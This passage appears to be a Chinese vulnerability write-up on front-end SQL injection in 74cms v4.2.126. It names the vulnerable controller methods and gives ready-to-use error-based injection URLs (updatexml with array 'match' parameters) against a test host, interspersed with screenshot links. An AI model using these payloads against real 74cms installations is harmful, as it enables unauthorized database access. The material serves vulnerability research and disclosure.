 文件：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php方法：function company\_focus(\$company\_id)是否需登录：需要登录权限：普通用户即可为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。登录后台

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId38.png)

注册完成以后登录前台即可如果不登录的话，会显示这个样子url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company\_focus

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId39.png)

    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId40.png)

看源码

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId41.png)

打开文件：
74cms\\upload\\Application\\Common\\Model\\PersonalFocusCompanyModel.class.php方法：add\_focus(

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId42.png)

0x05 74cms独有框架漏洞第二处
----------------------------

文件：74cms\\upload\\Application\\Home\\Controller\\CompanyServiceController.class.php方法：order\_pay\_finish(是否需登录：需要登录权限：企业用户即可看源码

image

为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId44.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId45.png)

注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

    如果不登录的话，会显示这个样子
    url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId46.png)

    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId47.png)

看源码

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId48.png)
